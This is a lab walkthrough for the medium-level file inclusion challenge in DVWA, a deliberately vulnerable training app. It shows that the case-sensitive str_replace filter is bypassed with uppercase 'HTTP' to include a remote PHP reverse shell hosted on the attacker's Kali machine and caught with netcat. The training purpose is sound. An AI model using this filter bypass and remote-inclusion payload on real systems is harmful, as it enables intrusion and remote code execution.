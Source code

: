 <b>Challenge URL:</b> /dvwa/vulnerabilities/fi/
<br>
<b>Objective:</b> Read all five famous quotes from <b>../hackable/flags/fi.php</b> using only file inclusion.
<br>
<b>Tools needed:</b> A reverse shell, a temporary web server on Kali, netcat
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2004:%20File%20Inclusion.md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

As always, let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/fisource.png" width="500">

We see that the code tries to remove all strings fitting the format <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code>. The developers hoped to protect against remote file inclusion with the first two strings and local file inclusions with the last two. Let's see how effective they are.

<h3><b>Crafting a New Exploit</b></h3>

When reading documentation on <code><a href="https://www.w3schools.com/php/func_string_str_replace.asp" target="_blank">str_replace()</a></code>, we note a key line as follows:

<blockquote>Note: This function is case-sensitive. Use the str_ireplace() function to perform a case-insensitive search.</blockquote>

That means that anything that does not match <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code> EXACTLY will still work. So let's modify our easy mode exploit by converting <code>http</code> to <code>HTTP</code> and try to replicate the exploit:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=HTTP&#58;//</b>[your_Kali_IP]<b>:9999/php-reverse-shell.php</b>

And check our <code>netcat</code> listener:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/ficomplete.png" width="500">

... And it really was that easy. Challenge complete!

